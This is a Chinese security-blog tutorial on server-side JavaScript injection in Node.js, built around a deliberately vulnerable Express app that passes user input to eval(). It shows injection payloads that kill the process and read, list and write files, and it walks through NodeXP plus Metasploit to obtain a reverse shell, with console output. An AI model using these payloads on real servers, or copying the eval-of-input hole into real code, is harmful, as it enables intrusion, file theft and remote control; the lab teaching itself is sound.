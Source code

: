 > 原文链接: https://www.anquanke.com//post/id/176150 


# SSJI —— Node.js漏洞审计系列（一）


                                阅读量   
                                **388539**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">4</a>
                                </b>
                                                                                    



[![](https://p2.ssl.qhimg.com/t01e7c935daa5177d42.png)](https://p2.ssl.qhimg.com/t01e7c935daa5177d42.png)



## 0x00 前言

hello我是掌控安全实验室的聂风，JavaScript在Node.js的帮助下变成了服务端脚本语言，那么既然是服务端脚本语言，就可能存在一些安全性问题。SSJI(服务器端JavaScript注入) 就是一种比较新颖的攻击手法。攻击者可以利用JS函数在服务器上执行恶意JS代码获得cmdshell。



## 0x01 环境搭建

工具：

[Node.js](https://nodejs.org/dist/v10.15.3/node-v10.15.3-x64.msi)

[https://nodejs.org/dist/v10.15.3/node-v10.15.3-x64.msi](https://nodejs.org/dist/v10.15.3/node-v10.15.3-x64.msi)

[Nodexp](https://github.com/esmog/nodexp/archive/master.zip)

https://github.com/esmog/nodexp/archive/master.zip

Metasploit-frameword(MSF)

搭建:

先傻瓜式的安装Node.js

安装好后Node.js 记得再安装一个express框架

npm install express –save (新版的Node.js都自带了npm)



## 0x02 SSJI危害

如果没有对输入进行检测，那么可能会容易受到攻击，攻击者可以利用JS函数在服务器上执行恶意JS代码。

可利用的函数有什么？

```
Eval()
setTimeout()
Setinterval()
Funtion()
```

例如：(Eval.js:)

```
var express = require('express');
var app = express();
app.get('/', function(req, res) `{` 
     var resp=eval(req.query.name);
     res.send('Response&lt;/br&gt;'+resp);
`}`);
app.listen(3002);
console.log('Server runing at http://127.0.0.1:3002/');
```

当我们使用Node.js去运行这个js的时候会在本地开启一个3002端口的WEB服务，然后他会获取GET方式传参上来的传参名为name的值，然后将获取到的值放在eval()函数中执行。

我们去访问这个端口

[![](https://p5.ssl.qhimg.com/t016fac5960f452048f.png)](https://p5.ssl.qhimg.com/t016fac5960f452048f.png)

然后我们可以对他进行GET传参，比如name=console.log(“hello World”);

[![](https://p4.ssl.qhimg.com/t019222d797285b76ad.png)](https://p4.ssl.qhimg.com/t019222d797285b76ad.png)

传参后就很明显执行了，在命令行中很明显的输出了Hello World!

那么我们既然能够执行输出，是不是能执行其他语句？比如一些恶意语句.

process.exit() / process.kill(process.pid)

还可以杀死他运行进程（NodeJs）

[![](https://p2.ssl.qhimg.com/t01eafd333753fa8227.png)](https://p2.ssl.qhimg.com/t01eafd333753fa8227.png)

进程被终结掉了。

基本上，攻击者可以在系统上执行/执行几乎任何操作（在用户权限限制内） 我们还可以尝试调用核心模块fs读取/列出当前目录下的文件名和文件夹名

```
res.end(require('fs').readdirSync('.').toString())
```

[![](https://p4.ssl.qhimg.com/t0112df5b3c0dafa4e1.png)](https://p4.ssl.qhimg.com/t0112df5b3c0dafa4e1.png)

我们也可以尝试调用核心模块fs写入文件(虽然没有回显，但是还是成功写入)

```
res.end(require('fs').writeFileSync('message.txt','hello'))
```

[![](https://p2.ssl.qhimg.com/t014c258a9b2028b97e.png)](https://p2.ssl.qhimg.com/t014c258a9b2028b97e.png)

我们也可以尝试调用核心模块fs去读取他的文件

```
res.end(require('fs').readFileSync('a.js','utf-8'))
```

[![](https://p3.ssl.qhimg.com/t0124d9fddf810ec333.png)](https://p3.ssl.qhimg.com/t0124d9fddf810ec333.png)

[![](https://p2.ssl.qhimg.com/t011723d4b2b3219a3f.png)](https://p2.ssl.qhimg.com/t011723d4b2b3219a3f.png)

如果目标的机器上面安装了node-cmd就可以调用cmd (为显示明了我去调用一个exe安装)

```
var nodeCmd = require('node-cmd');nodeCmd.run('360cse_9.5.0.138.exe');
```

[![](https://p2.ssl.qhimg.com/t01068f708a9ea3def7.png)](https://p2.ssl.qhimg.com/t01068f708a9ea3def7.png)

[![](https://p1.ssl.qhimg.com/t0153b1bd7b3bc3e618.png)](https://p1.ssl.qhimg.com/t0153b1bd7b3bc3e618.png)

很明显我们就调用了cmd



## 0x03 通过nodexp获取cmdshell

我们也可以尝试使用NodeXP工具加MSF来成功的获取一个cmdshell

使用方法：

GET:  python nodexp.py –url=http://localhost:3001/?name=[INJECT_HERE]<br>
POST:  python nodexp.py –url=http://localhost:3001/post.js –pdata=username=[INJECT_HERE]

[![](https://p3.ssl.qhimg.com/t010e5aae1f818acd82.png)](https://p3.ssl.qhimg.com/t010e5aae1f818acd82.png)

[![](https://p4.ssl.qhimg.com/t01301ef0ab05b8a431.png)](https://p4.ssl.qhimg.com/t01301ef0ab05b8a431.png)

[![](https://p2.ssl.qhimg.com/t014dd3f44a79baced0.png)](https://p2.ssl.qhimg.com/t014dd3f44a79baced0.png)

设置一个攻击机器的IP(装有MSF)

[![](https://p3.ssl.qhimg.com/t01e2b0f79fd6f1adca.png)](https://p3.ssl.qhimg.com/t01e2b0f79fd6f1adca.png)

设定端口

[![](https://p2.ssl.qhimg.com/t01e2b0f79fd6f1adca.png)](https://p2.ssl.qhimg.com/t01e2b0f79fd6f1adca.png)

然后会自动运行一个MSF 自动配置好

[![](https://p2.ssl.qhimg.com/t01ba748d97e7b88051.png)](https://p2.ssl.qhimg.com/t01ba748d97e7b88051.png)

选择1去打一个cmdshell

[![](https://p3.ssl.qhimg.com/t01ef319c98e5496523.png)](https://p3.ssl.qhimg.com/t01ef319c98e5496523.png)

成功返回一个session

[![](https://p4.ssl.qhimg.com/t01537dea496a54cce2.png)](https://p4.ssl.qhimg.com/t01537dea496a54cce2.png)

选中 sessions -i 1 （然后会卡，直接恩回车就行）

[![](https://p2.ssl.qhimg.com/t010a7163f00d900b4b.png)](https://p2.ssl.qhimg.com/t010a7163f00d900b4b.png)

成功获得cmdshell

MSF运行语句：

```
[*] Processing /root/nodexp-master/scripts/nodejs_shell.rc for ERB directives.
resource (/root/nodexp-master/scripts/nodejs_shell.rc)&gt; use exploit/multi/handler
resource (/root/nodexp-master/scripts/nodejs_shell.rc)&gt; set payload nodejs/shell_reverse_tcp
payload =&gt; nodejs/shell_reverse_tcp
resource (/root/nodexp-master/scripts/nodejs_shell.rc)&gt; set lhost 172.16.0.160
lhost =&gt; 172.16.0.160
resource (/root/nodexp-master/scripts/nodejs_shell.rc)&gt; set lport 4570
lport =&gt; 4570
resource (/root/nodexp-master/scripts/nodejs_shell.rc)&gt; set ExitOnSession true
ExitOnSession =&gt; true
resource (/root/nodexp-master/scripts/nodejs_shell.rc)&gt; set InitialAutoRunScript 'post/multi/manage/shell_to_meterpreter'
InitialAutoRunScript =&gt; post/multi/manage/shell_to_meterpreter
resource (/root/nodexp-master/scripts/nodejs_shell.rc)&gt; spool /root/nodexp-master/scripts/nodejs_shell.rc.output.txt
[*] Spooling to file /root/nodexp-master/scripts/nodejs_shell.rc.output.txt...
resource (/root/nodexp-master/scripts/nodejs_shell.rc)&gt; exploit -j -z
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 172.16.0.160:4570 
msf5 exploit(multi/handler) &gt; [*] Command shell session 1 opened (172.16.0.160:4570 -&gt; 172.16.0.236:51759) at 2019-03-21 18:01:56 +0800
[*] Session ID 1 (172.16.0.160:4570 -&gt; 172.16.0.236:51759) processing InitialAutoRunScript 'post/multi/manage/shell_to_meterpreter'
[!] SESSION may not be compatible with this module.
[*] Upgrading session ID: 1
```



## 0x04 总结

现在使用JavaScript开发的网站将越来越多，但是SSJI(服务器端JavaScript注入) 并没有受到重视，还属于比较冷门的攻击手法，但是该攻击手法危害高，应当重视起来。Node.js 安全性的范围很大，该文章作为一个引子，[掌控安全实验室](http://zkaq.org)将持续跟进分析，希望大家支持！下期见。
